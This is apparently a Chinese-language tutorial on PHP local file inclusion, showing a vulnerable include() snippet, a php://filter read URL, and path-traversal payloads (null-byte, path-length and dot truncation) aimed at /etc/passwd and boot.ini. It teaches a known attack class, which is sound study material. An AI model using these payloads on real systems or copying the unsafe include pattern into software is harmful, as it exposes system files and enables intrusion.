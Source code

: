 这种 url 很容易就能想到可能是文件包含或者伪协议读取

```powershell
http://10.2.1.1:20770/index.php?page=upload
http://10.2.1.1:20770/index.php?page=php://filter/read=convert.base64-encode/resource=upload
```

常见的导致文件包含的函数有

- include()
- include_once()
- require()
- require_once()
- fopen()
- readfile()

当 PHP 包含一个文件时，会将该文件当做 PHP 代码执行，而不会在意文件时什么类型。

## 本地文件包含

本地文件包含，Local File Inclusion，LFI。

```php
<?php
$file = $_GET['file'];
if (file_exists('/home/wwwrun/'.$file.'.php')) {
  include '/home/wwwrun/'.$file.'.php';
}
?>
123456
```

上述代码存在本地文件包含，可用 %00 截断的方式读取 /etc/passwd 文件内容。

## %00 截断

```powershell
?file=../../../../../../../../../etc/passwd%00
```

需要 magic_quotes_gpc=off，PHP 小于 5.3.4 有效。

## 路径长度截断

```powershell
?file=../../../../../../../../../etc/passwd/./././././././././././.
```

Linux 需要文件名长于 4096，Windows 需要长于 256。

## 点号截断

```powershell
?file=../../../../../../../../../boot.ini/………………
```
